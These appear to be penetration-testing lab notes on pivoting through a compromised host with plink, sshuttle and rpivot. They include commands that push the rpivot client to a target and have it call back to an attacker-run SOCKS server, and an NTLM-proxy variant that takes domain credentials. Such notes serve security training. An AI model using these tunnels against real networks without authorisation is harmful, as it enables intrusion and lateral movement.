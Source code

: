 
## Plink (Part of putty suite) Windows Method

Setting up ssh socks proxy via plink
```cmd-session
plink -ssh -D 9050 ubuntu@10.129.15.50
```


## sshuttle

Installing
```shell-session
sudo apt-get install sshuttle
```

Running
```shell-session
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
```
With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

Run commands like usual since we have the entry within iptables and traffic is being routed.

## Rpivot
https://github.com/klsecservices/rpivot

Starting from attack host
```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Transferring rpivot via ssh
```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

Running rpivot on pivot target
```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Connect via proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```

Connect to web server via http-proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
